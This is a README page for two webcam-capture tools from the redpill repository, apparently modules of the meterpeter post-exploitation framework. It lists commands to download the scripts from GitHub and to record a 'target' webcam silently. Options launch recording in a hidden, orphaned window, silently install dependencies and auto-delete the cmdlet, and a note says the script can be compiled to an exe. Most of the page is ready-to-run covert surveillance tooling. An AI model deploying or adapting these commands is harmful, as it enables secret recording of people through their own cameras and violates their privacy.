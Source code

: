 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon its installed
[bool](python -V)

#Check if opencv its installed
[bool](pip list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

```
Auxiliary Module of meterpeter v2.10.13 that uses python3 opencv-python pacakge
to record video files (AVI format) using the default webcam attached to computer.
```

|Parameter name|Description|Default value|Remark|
|---|---|---|---|
|RecTime|Camera record time in seconds|15|accepts values from '10' up to '120' seconds (default)|
|FileName|Video.avi file name|meterpeter.avi|\*\*\*|
|WorkingDir|Cmdlet working directory|$Env:TMP|cmdlet will store files on sellected directory|
|RecLimmit|Record time limmit in seconds|120|Bypass cmdlet default MAX record time limmit|
|StartTime|Start record at selected time|off|Requires the first two digits to be 'HOURS'<br />and the last two digits to be 'MINUTS' eg. 09:07|
|ForceInstall|Silent install dependencies switch.|\*\*\*|Silent install python 3 dependencies if missing|
|AutoDel|AutoDelete cmdlet in the end switch.|\*\*\*|Auto-Delete Invoke-WebCamAvi cmdlet in the end|


<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1" -OutFile "Invoke-webcamAvi.ps1"
```

<br />

**Prerequesites tests:**
```powershell
#Mandatory requirement
[bool](python -V)
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-webcamAvi.ps1 -full

#Record webcam live stream for 20 seconds time
.\Invoke-webcamAvi.ps1 -RecTime '20'

#Record webcam live and use %TMP% as working directory
.\Invoke-webcamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and rename avi file name
.\Invoke-webcamAvi.ps1 -FileName "capture.avi"

#Silent install of python3 dependencies if missing.
.\Invoke-WebCamAvi.ps1 -forceinstall

  -- Final Notes --
  
#Invoke -reclimmit 'int' to bypass max_rec_time restrictions
.\Invoke-WebCamAvi.ps1 -rectime '240' -reclimmit '240'

## Start webcam record at selected time frame ..
# Warning: -starttime input format requires 4 digits user inputs.
# The first two digits reffers to HOUR and the last two to MINUTS
.\Invoke-WebCamAvi.ps1 -starttime '09:07'

#Execute cmdlet in a hidden terminal window for 60 seconds ( child detach from parent process - orphan )
PS C:\> Start-Process -WindowStyle hidden powershell -argumentlist "-file Invoke-WebCamAvi.ps1 -rectime '60'"
```

<br />

**Final Notes:**
```powershell
Remark: Python 3 its mandatory requirement to run cmdlet ..
Invoke-webcamAvi cmdlet automates the execution of 'WebCam.py' and python packages dependencies.
Video recording (silent) its stored on cmdlet working directory under the name of: "meterpeter.avi"
```
